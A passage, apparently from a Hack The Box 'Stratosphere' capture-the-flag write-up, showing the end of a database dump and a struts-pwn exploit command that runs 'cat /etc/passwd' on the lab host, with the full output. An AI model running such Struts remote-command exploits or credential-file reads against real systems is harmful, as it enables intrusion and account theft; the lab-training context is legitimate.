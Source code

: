 ```
/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2018-03-22 19:34:56

[%] Done.
```

We have Richard's password! Now to verify his account name.

```
root@kali:~/htb/stratosphere# python struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'cat /etc/passwd'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: cat /etc/passwd
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
rtkit:x:105:109:RealtimeKit,,,:/proc:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/bin/false
messagebus:x:107:110::/var/run/dbus:/bin/false
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
speech-dispatcher:x:109:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
lightdm:x:111:113:Light Display Manager:/var/lib/lightdm:/bin/false
pulse:x:112:114:PulseAudio daemon,,,:/var/run/pulse:/bin/false
avahi:x:113:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
saned:x:114:118::/var/lib/saned:/bin/false
richard:x:1000:1000:Richard F Smith,,,:/home/richard:/bin/bash
tomcat8:x:115:119::/var/lib/tomcat8:/bin/bash
mysql:x:116:120:MySQL Server,,,:/nonexistent:/bin/false
clutch:x:1001:1001::/home/clutch:

```